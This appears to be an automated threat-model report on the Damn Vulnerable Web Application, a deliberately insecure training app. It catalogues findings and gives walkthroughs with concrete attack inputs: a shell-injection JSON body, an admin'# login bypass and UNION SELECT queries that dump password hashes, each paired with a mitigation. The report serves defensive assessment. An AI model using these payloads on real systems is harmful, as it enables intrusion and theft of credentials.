Pipeline<br/><span style="white-space:nowrap">🟡&nbsp;[F-071](#f-071)</span> - Missing Workflow Permissions Block <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span>&nbsp;CI/CD Pipeline | 🟠 **High**<br/>Full Server Compromise | <span style="white-space:nowrap">◕ [M-035](#m-035)</span> — Remove secret-echoing workflow and rotate exposed secrets<br/><span style="white-space:nowrap">◕ [M-012](#m-012)</span> — docker-compose secrets supplied by reference |

_STRIDE: S spoofing · T tampering · R repudiation · I information disclosure · D denial of service · E elevation of privilege. Risk, findings, components, impact and Fix are derived deterministically; only the one-line weakness description is authored._

**Verified attack chains.** 3 fully viable ([AC-T-002](#ac-t-002), [AC-T-004](#ac-t-004), [AC-T-005](#ac-t-005)). These chains combine individual findings into end-to-end exploitation paths verified step-by-step against the code - see [§9 Abuse Cases](#9-abuse-cases) for the per-step breakdown and blocking mitigations.

### Operational Strengths

Operational controls rated Adequate or Partial - grouped into broad clusters (full per-control breakdown in [§6](#6-security-architecture)). Clusters demoted to Weak by open Critical/High findings appear in [§6](#6-security-architecture) instead, not here.

<table style="table-layout:fixed;width:100%">
<colgroup><col width="18%" style="width:18%"><col width="30%" style="width:30%"><col width="40%" style="width:40%"><col width="12%" style="width:12%"></colgroup>
<thead><tr><th>Strength</th><th>What's in Place</th><th>Effectiveness</th><th>Mitigates</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:break-word"><strong>Authentication &amp; Session Management</strong></td><td style="overflow-wrap:break-word"><em>Identity issuance, route-level authorisation, and second-factor handling for this codebase.</em><br/>Anti-CSRF session token on login<br/>SQL query construction in login<br/>Authentication disable switch<br/>Password hashing for login</td><td style="overflow-wrap:break-word">⚠️ Partial — Bypassed by 3 High finding(s) of the kind this cluster is supposed to prevent — e.g.<br/>🟠 <a href="#f-001">F-001</a> — Missing Anti-CSRF Tokens on State-Changing Actions<br/>🟠 <a href="#f-036">F-036</a> — Unauthenticated database reset<br/>🟠 <a href="#f-023">F-023</a> — CSRF Referer check bypass.</td><td style="overflow-wrap:break-word">🟡 <a href="#f-038">F-038</a> — Login allows unlimited password guessing without lockout<br/>🟡 <a href="#f-045">F-045</a> — CAPTCHA completion trusted from client-supplied form fiel…<br/>🟡 <a href="#f-071">F-071</a> — Missing Workflow Permissions Block<br/>🟡 <a href="#f-073">F-073</a> — Profile authorization trusts client-controlled user_id co…<br/>🟡 <a href="#f-075">F-075</a> — Admin check on user update enforced only (change_user_det…<br/><em>+2 more</em></td></tr>
<tr><td style="overflow-wrap:break-word"><strong>Container &amp; Supply-Chain Hardening</strong></td><td style="overflow-wrap:break-word"><em>Build-time and runtime hardening - minimal base image, non-root execution, dependency inventory.</em><br/>Image pinning and version control</td><td style="overflow-wrap:break-word">⚠️ Partial - Coverage incomplete - see <a href="#7-weakness-register">§7</a> control assessment.</td><td style="overflow-wrap:break-word">-</td></tr>
</tbody>
</table>


**Bottom line:** These controls narrow specific attack surfaces but none eliminates a Critical finding on its own.

---

## 1. System Overview

Damn Vulnerable Web Application (DVWA) is a PHP/MariaDB web application that is damn vulnerable. Its main goal is to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand…

**Repository:** `https://github.com/digininja/DVWA`

### Scope

This threat model covers 4 components of DVWA: 

- MariaDB database
- CI/CD Pipeline
- DVWA API service
- DVWA web application

**Not individually examined:** 26 source files in 3 components had no route, lead or security signal (CI/CD Pipeline 1, DVWA API service 22, DVWA web application 3).

**Out of scope:** third-party hosted dependencies, browser runtime, operating-system kernel, and the underlying network infrastructure.

**Basis:** An automated, AI-assisted threat model built from the repository's source code and configuration - static analysis only, no dynamic or penetration testing. It describes the system as built, not as designed.

---

<a id="identified-actors"></a>
### Identified Actors

Figure 1a draws **Anonymous Internet Attacker** and **Authenticated Internet Attacker** as attackers and **DVWA User** as legitimate role of DVWA. [Figure 1b](#figure-1b) draws **Supply-Chain / Build Attacker** and the build it attacks. Each row gives that actor's access and the findings attributed to it.

| Actor | Type | Access | Scenarios | Attributed findings |
|----------------------|--------|----------------------|--------------|-------------------|
| A1 · Anonymous Internet Attacker | Attacker | no account or prior foothold | ① ② ③ ⑤ | - |
| A2 · Authenticated Internet Attacker | Attacker | owns a regular account; logged in | ② ④ | 🟠 3 · 🟡 2 |
| A3 · Supply-Chain / Build Attacker | Attacker | compromises a dependency or build pipeline, or contributes malicious code to a public repo · [Figure 1b](#figure-1b) | ⑥ | 🟠 2 · 🟡 5 |
| DVWA User | Role | Human who signs in through the DVWA login<br/>form with a username and password stored in<br/>the users table. | - | - |

61 findings are not represented in the actor counts (1 Critical, 24 High, 36 Medium). These counts cover assigned findings only; absence from them does not establish inaccessibility.

---

### Trust Boundaries

Each row names a crossing and the condition it relies on. A modelled crossing does not prove that its control works.

<table style="table-layout:fixed;width:100%">
<colgroup><col width="7%" style="width:7%"><col width="25%" style="width:25%"><col width="36%" style="width:36%"><col width="32%" style="width:32%"></colgroup>
<thead><tr><th>ID</th><th>Crossing</th><th>Required condition</th><th>Findings / open question</th></tr></thead>
<tbody>
<tr><td style="white-space:nowrap"><a id="tb-1"></a>tb-1</td><td style="overflow-wrap:break-word">external → DVWA web application</td><td style="overflow-wrap:break-word">Only requests presenting a valid anti-CSRF token and matching credentials obtain a session.<br/>Control: <code>login.php</code> token and credential check</td><td style="overflow-wrap:break-word">5 related findings; relevance to this crossing remains unverified.</td></tr>
<tr><td style="white-space:nowrap"><a id="tb-2"></a>tb-2</td><td style="overflow-wrap:break-word">external → DVWA API service</td><td style="overflow-wrap:break-word">Every API route establishes caller identity before acting on the request.<br/>Control: not identified</td><td style="overflow-wrap:break-word">60 related findings; relevance to this crossing remains unverified.</td></tr>
<tr><td style="white-space:nowrap"><a id="tb-3"></a>tb-3</td><td style="overflow-wrap:break-word">external → CI/CD Pipeline<br/>Crossing: inferred</td><td style="overflow-wrap:break-word">Workflows run only repository-controlled code with the minimum token permissions needed to push images.<br/>Control: <code>GITHUB_TOKEN</code> scopes</td><td style="overflow-wrap:break-word">Gap evidenced: <em>Authorization</em><br/>🟡 <a href="#f-070">F-070</a></td></tr>
<tr><td style="white-space:nowrap"><a id="tb-4"></a>tb-4</td><td style="overflow-wrap:break-word">DVWA web application → MariaDB database</td><td style="overflow-wrap:break-word">Every query built from request data is escaped or parameterized before reaching MariaDB.<br/>Control: not identified</td><td style="overflow-wrap:break-word">Gap evidenced: <em>Authentication</em><br/>🟡 <a href="#f-037">F-037</a></td></tr>
<tr><td style="white-space:nowrap"><a id="tb-5"></a>tb-5</td><td style="overflow-wrap:break-word">DVWA web application → external</td><td style="overflow-wrap:break-word">Only the CAPTCHA response, secret and client IP are sent to the fixed Google siteverify URL.<br/>Control: not identified</td><td style="overflow-wrap:break-word">No linked finding establishes a gap; control effectiveness is not established.</td></tr>
</tbody>
</table>

Crossing types, source evidence and provenance are retained in `security-assessment.yaml`.

---

### Platform Security Settings

Settings of the hosting platform at check time, not of the examined source revision. `set` means configured, not effective. `not checkable` means unknown, not missing protection.

Repository selection 1: skipped (local repository; supply a GitHub or GitLab URL to check its platform settings).

---

## 2. Architecture Diagrams

### 2.1 System Context

Who uses and attacks DVWA, and which external systems it exchanges data with. Solid arrows name the data a flow carries; dashed red arrows are attack routes. Actors carry the names Figure 1 uses (C4 Level 1).



**Key takeaway:** DVWA serves DVWA User and depends on API client and Google `reCAPTCHA`; Anonymous Internet Attacker, Authenticated Internet Attacker and Supply-Chain / Build Attacker attack it.

### 2.2 Container Architecture

How the system decomposes into deployable units. Each box is a separate runtime process or service container; arrows show synchronous request paths between them. Components with ≥3 Critical findings carry a red border, ≥2 High amber (C4 Level 2).



*Trust boundaries not drawn above: DVWA web application → MariaDB database (tb-4), DVWA web application → external (tb-5), external → CI/CD Pipeline (tb-3) - every boundary is listed in [§1 Trust Boundaries](#trust-boundaries).*

**Key takeaway:** The system decomposes into 0 client, 2 application and 1 data unit(s); DVWA API service carries the most Critical findings (1) and bounds the worst-case blast radius. The build plane (CI/CD Pipeline) is shown in [Figure 1b](#figure-1b).

### 2.3 Components

How each component is reached, what it handles, how many threats hit it, and how effective the controls evidenced on it are. The component table below holds source paths and linked threats per `C-NN`; per-finding evidence is in [§8 Findings Register](#8-findings-register).

<!-- detail-table -->
| Component | Inbound flows | Data handled | Threats | Controls: worst effectiveness per domain |
|----------------------|----------------------|------------|----------------------|----------------------|
| [C-01](#c-01) · MariaDB database | 1 authenticated (password) | Confidential | 1 (🟡 1) | – |
| [C-02](#c-02) · CI/CD Pipeline | none modeled | – | 7 (🟠 2 · 🟡 5) | 🟠 Weak: Supply chain (5) |
| [C-03](#c-03) · DVWA API service | 1 authentication unknown<br/>1 authenticated (password) | Restricted | 60 (🔴 1 · 🟠 24 · 🟡 35) | – |
| [C-04](#c-04) · DVWA web application | 1 authenticated (password) | Restricted | 9 (🟠 4 · 🟡 5) | – |
| System-wide: evidence not tied to one<br/>component | – | – | – | 🔴 Unsafe: AuthN (6), Secrets / crypto (3)<br/>🔴 Missing: Supply chain<br/>🟡 Partial: Session, Input / query |

*🔴 **Unsafe**: relied upon but defeated or trivially bypassable - fix it · 🔴 **Missing**: never built - add it · 🟠 **Weak**: present, with exploitable gaps · 🟡 **Partial**: covers some surfaces, meaningful gaps remain · 🟢 **Adequate**: present and sound. A control counts for the component whose paths hold its implementation evidence; a domain without an evidenced control is not listed; (n) counts the controls behind a rating. Threat counts use the Figure 1 attribution; [§6](#6-security-architecture) holds the full assessment.*

**Key takeaway:** No component has a control rated Unsafe or Missing; 3 components have no component-specific control (C-01, C-03, C-04); 12 controls apply system-wide.

| ID | Name | Type | Key Paths | Linked Threats |
|----|--------------------|-----------|----------------------------------------|------------------------------------------------|
| <a id="c-01"></a><a id="component-8d1641fcac0ef9a2"></a><span style="white-space:nowrap">C-01</span> | MariaDB database | data | `compose.yml` | 🟡 [F-037](#f-037) — Hardcoded weak MariaDB root and application credentials |
| <a id="c-02"></a><a id="component-8e8c82f91b0e01fb"></a><span style="white-space:nowrap">C-02</span> | CI/CD Pipeline | application | `.dockerignore`<br/>`.github/workflows/codeql-analysis.yml`<br/>`.github/workflows/docker-image.yml`<br/>`.github/workflows/pytest.yml`<br/>`.github/workflows/shiftleft-analysis.yml` | 🟠 [F-027](#f-027) — All repository secrets base64-encoded into public workflow<br/>🟠 [F-028](#f-028) — Static database credentials hardcoded in compose file<br/>🟡 [F-051](#f-051) — Third-party GitHub Actions pinned by mutable tag instead of commit SHA<br/>🟡 [F-052](#f-052) — Container base images use floating tags without digest pinning<br/>🟡 [F-069](#f-069) — Container Runs as Root<br/>🟡 [F-070](#f-070) — Workflows omit explicit permissions and inherit default<br/>🟡 [F-071](#f-071) — Missing Workflow Permissions Block |
| <a id="c-03"></a><a id="component-9433446fc4243c3e"></a><span style="white-space:nowrap">C-03</span> | DVWA API service | application | `vulnerabilities/api/bootstrap.php`<br/>`vulnerabilities/api/gen_openapi.php`<br/>`vulnerabilities/api/help/help.php`<br/>`vulnerabilities/api/index.php`<br/>`vulnerabilities/api/public/index.php` | 🔴 [F-005](#f-005) — OS command injection in ping and health connectivity checks<br/>🟠 [F-001](#f-001) — Missing Anti-CSRF Tokens on State-Changing Actions<br/>🟠 [F-002](#f-002) — Passwords hashed with unsalted MD5 and no strength policy<br/>🟠 [F-006](#f-006) — Session token in AES-ECB without integrity allows forged admin<br/>🟠 [F-009](#f-009) — DOM XSS from URL default parameter written<br/>🟠 [F-010](#f-010) — Reflected cross-site scripting<br/>🟠 [F-011](#f-011) — Stored guestbook name and message persisted without HTML encoding<br/>🟠 [F-012](#f-012) — SQL injection in user details update endpoint<br/>🟠 [F-013](#f-013) — SQL injection<br/>🟠 [F-014](#f-014) — SQL injection in brute-force login query<br/>🟠 [F-015](#f-015) — SQL injection<br/>🟠 [F-016](#f-016) — SQL injection<br/>🟠 [F-017](#f-017) — SQL injection in unquoted numeric context despite escaping<br/>🟠 [F-018](#f-018) — Blind SQL injection<br/>🟠 [F-019](#f-019) — Blind SQL injection<br/>🟠 [F-020](#f-020) — Blind SQL injection in unquoted context despite escaping<br/>🟠 [F-021](#f-021) — Wildcard filename check allows file scheme inclusion<br/>🟠 [F-022](#f-022) — Non-recursive traversal filter bypass in file inclusion<br/>🟠 [F-023](#f-023) — CSRF Referer check bypass<br/>🟠 [F-029](#f-029) — Path traversal in source viewer reads<br/>🟠 [F-030](#f-030) — Unauthenticated legacy user API version exposes password hashes<br/>🟠 [F-031](#f-031) — Hardcoded database credentials in test script<br/>🟠 [F-033](#f-033) — Unrestricted file upload into web-served directory keeps client name<br/>🟠 [F-034](#f-034) — Upload filter trusts client-supplied MIME type<br/>🟠 [F-035](#f-035) — Unauthenticated CBC token with padding oracle<br/>🟡 [F-003](#f-003) — Broken MD5/SHA-1 Hash Primitive Usage<br/>🟡 [F-038](#f-038) — Login allows unlimited password guessing without lockout<br/>🟡 [F-039](#f-039) — Hardcoded token encryption key allows bearer token forgery<br/>🟡 [F-040](#f-040) — Predictable session identifier generation in weak_id module<br/>🟡 [F-041](#f-041) — Leftover development bypass value skips CAPTCHA<br/>🟡 [F-042](#f-042) — Open redirect with substring-only target check<br/>🟡 [F-043](#f-043) — Unvalidated open redirect from redirect parameter<br/>🟡 [F-044](#f-044) — Open redirect filter bypass<br/>🟡 [F-045](#f-045) — CAPTCHA completion trusted from client-supplied form field<br/>🟡 [F-046](#f-046) — CBC padding oracle enables token decryption<br/>🟡 [F-047](#f-047) — Hardcoded OAuth client secret and user password<br/>🟡 [F-048](#f-048) — CAPTCHA skipped by posting step 2 directly<br/>🟡 [F-049](#f-049) — API user creation sets a fixed default password<br/>🟡 [F-050](#f-050) — API token endpoint supports the deprecated OAuth<br/>🟡 [F-053](#f-053) — Request URI reflected unescaped into inline JavaScript<br/>🟡 [F-054](#f-054) — Stored XSS in authbypass user table<br/>🟡 [F-055](#f-055) — Stored XSS of logged X-Forwarded-For in access log table<br/>🟡 [F-056](#f-056) — Reflected XSS of username in login welcome message<br/>🟡 [F-057](#f-057) — Unencoded HTML injection of include parameter at high CSP level<br/>🟡 [F-058](#f-058) — Reflected script injection<br/>🟡 [F-059](#f-059) — Reflected XSS with static CSP nonce and unsafe-inline<br/>🟡 [F-060](#f-060) — Cross-site scripting<br/>🟡 [F-061](#f-061) — Reflected XSS<br/>🟡 [F-063](#f-063) — Path traversal in help viewer id and locale<br/>🟡 [F-064](#f-064) — Hardcoded and undersized AES-256-GCM token key<br/>🟡 [F-065](#f-065) — Repeating-key XOR cipher with hardcoded key<br/>🟡 [F-066](#f-066) — Broken hash primitive<br/>🟡 [F-067](#f-067) — Login forms send passwords in GET query strings<br/>🟡 [F-072](#f-072) — Eval of file contents at user-controlled help<br/>🟡 [F-073](#f-073) — Profile authorization trusts client-controlled user_id cookie<br/>🟡 [F-074](#f-074) — Profile access gated by a fixed hardcoded query-string token<br/>🟡 [F-075](#f-075) — Admin check on user update enforced only<br/>🟡 [F-076](#f-076) — Mass assignment of privileged user level<br/>🟡 [F-096](#f-096) — User keeps<br/>🟡 [F-097](#f-097) — Unauthenticated or low-privilege caller uses user-management |
| <a id="c-04"></a><a id="component-bc0b0b82b94908ba"></a><span style="white-space:nowrap">C-04</span> | DVWA web application | application | `about.php`<br/>`config/config.inc.php.dist`<br/>`dvwa/includes/DBMS/MySQL.php`<br/>`dvwa/includes/DBMS/PGSQL.php`<br/>`dvwa/includes/Parsedown.php` | 🟠 [F-007](#f-007) — Seeded accounts use trivially guessable default passwords<br/>🟠 [F-008](#f-008) — Seeded default accounts with trivial passwords stored as unsalted<br/>🟠 [F-036](#f-036) — Unauthenticated database reset<br/>🟡 [F-062](#f-062) — Security decisions driven by client-controlled cookie<br/>🟡 [F-068](#f-068) — Configuration file copied to backup alongside web content |

> **Legend:** `-->` synchronous request/response (REST, HTTPS, gRPC) · **red border** ≥ 3 Critical threats on the component · **amber border** ≥ 2 High threats

---

## 3. Attack Walkthroughs

This section walks through how the highest-risk findings are exploited - one short walkthrough per Critical, each with attack steps, a focused sequence diagram, and the primary mitigation. Full per-finding context (severity rationale, assets, detection signals) is in the [§8 Findings Register](#8-findings-register).

### 3.1 OS command injection in ping and health connectivity checks

**Source:** 🔴 [F-005](#f-005) — `vulnerabilities/api/src/HealthController.php:88`

Severity **Critical** ([CWE-78](https://cwe.mitre.org/data/definitions/78.html)). STRIDE: Tampering. See [§8 F-005](#f-005) for the full register row.

**Attack Steps**

1. I send POST `/vulnerabilities/api/v2/health/connectivity` with JSON body `{"target":"x; id"}`, without any token.
2. The front controller routes the request to HealthController::`checkConnectivity`, which passes my target into `exec()` unchanged.
3. The shell runs my injected command as the web server user, which gives me code execution on the API host.

**Sequence Diagram**



**Key takeaway:** Until ● [M-018](#m-018) (Validate target host and drop shell invocation) lands, 🔴 [F-005](#f-005) — OS command injection in ping and health connectivity checks is exploitable at `vulnerabilities/api/src/HealthController.php:88` (Critical-severity, [CWE-78](https://cwe.mitre.org/data/definitions/78.html)).

**Defense in Depth**

- Primary mitigation: ● [M-018](#m-018) (Validate target host and drop shell invocation)

### 3.2 SQL injection in user details update endpoint

**Source:** 🟠 [F-012](#f-012) — `vulnerabilities/authbypass/change_user_details.php:48`

Severity **High** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-012](#f-012) for the full register row.

**Attack Steps**

1. Find the request parameter that reaches the raw query at `vulnerabilities/authbypass/change_user_details.php:48`.
2. A caller POSTs JSON to `change_user_details.php`.
3. The `first_name`, surname and id fields are concatenated directly into an UPDATE statement, so the caller can rewrite any users row, for example passwords, or extract data through injected subqueries.

**Sequence Diagram**



**Key takeaway:** Until ◕ [M-025](#m-025) (Use prepared statements for user update query) lands, 🟠 [F-012](#f-012) — SQL injection in user details update endpoint is exploitable at `vulnerabilities/authbypass/change_user_details.php:48` (High-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ◕ [M-025](#m-025) (Use prepared statements for user update query)

### 3.3 SQL injection in Low

**Source:** 🟠 [F-013](#f-013) — `vulnerabilities/bac/source/low.php:81`

Severity **High** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-013](#f-013) for the full register row.

**Attack Steps**

1. Find the request parameter that reaches the raw query at `vulnerabilities/bac/source/low.php:81`.
2. An authenticated user sends a bac profile request at low or medium level with an X-Forwarded-For header containing a quote and SQL; the value is concatenated into the INSERT into `bac_log`, letting an attacker run stacked subqueries or corrupt log data.

**Sequence Diagram**



**Key takeaway:** Until ◕ [M-026](#m-026) (Bind the logged IP with a prepared statement) lands, 🟠 [F-013](#f-013) — SQL injection is exploitable at `vulnerabilities/bac/source/low.php:81` (High-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ◕ [M-026](#m-026) (Bind the logged IP with a prepared statement)

### 3.4 SQL injection in brute-force login query

**Source:** 🟠 [F-014](#f-014) — `vulnerabilities/brute/source/low.php:13`

Severity **High** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-014](#f-014) for the full register row.

**Attack Steps**

1. Find the request parameter that reaches the raw query at `vulnerabilities/brute/source/low.php:13`.
2. An attacker submits username admin'# with any password; the unescaped value closes the string and comments out the password check, logging in as admin and enabling arbitrary SQL reads.

**Sequence Diagram**


**Key takeaway:** Until ◕ [M-027](#m-027) (Use PDO prepared statements for the login query) lands, 🟠 [F-014](#f-014) — SQL injection in brute-force login query is exploitable at `vulnerabilities/brute/source/low.php:13` (High-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ◕ [M-027](#m-027) (Use PDO prepared statements for the login query)

### 3.5 SQL injection in High

**Source:** 🟠 [F-015](#f-015) — `vulnerabilities/sqli/source/high.php:11`

Severity **High** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-015](#f-015) for the full register row.

**Attack Steps**

1. Find the request parameter that reaches the raw query at `vulnerabilities/sqli/source/high.php:11`.
2. Submit an SQL meta-character payload (e.g. `' OR 1=1 --`) in that parameter.
3. An authenticated user POSTs `id=1`' `UNION SELECT user,password FROM users`-- - to `session-input.php`, which stores it in \$_SESSION. `sqli/source/high.php` then puts the session value inside quotes in the SELECT and runs it.

**Sequence Diagram**


**Key takeaway:** Until ◕ [M-028](#m-028) (Parameterize the query and validate the session ID) lands, 🟠 [F-015](#f-015) — SQL injection is exploitable at `vulnerabilities/sqli/source/high.php:11` (High-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ◕ [M-028](#m-028) (Parameterize the query and validate the session ID)

### 3.6 SQL injection in Low

**Source:** 🟠 [F-016](#f-016) — `vulnerabilities/sqli/source/low.php:11`

Severity **High** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-016](#f-016) for the full register row.

**Attack Steps**

1. An authenticated user submits `id=1`' `UNION SELECT user,password FROM users`-- -.
2. The value is put inside quotes in the SELECT string and run by `mysqli_query` (or SQLite query), so an attacker can dump user password hashes.

**Sequence Diagram**



**Key takeaway:** Until ◕ [M-029](#m-029) (Use parameterized queries for the user ID lookup) lands, 🟠 [F-016](#f-016) — SQL injection is exploitable at `vulnerabilities/sqli/source/low.php:11` (High-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ◕ [M-029](#m-029) (Use parameterized queries for the user ID lookup)

### 3.7 Unauthenticated database reset in DVWA web application

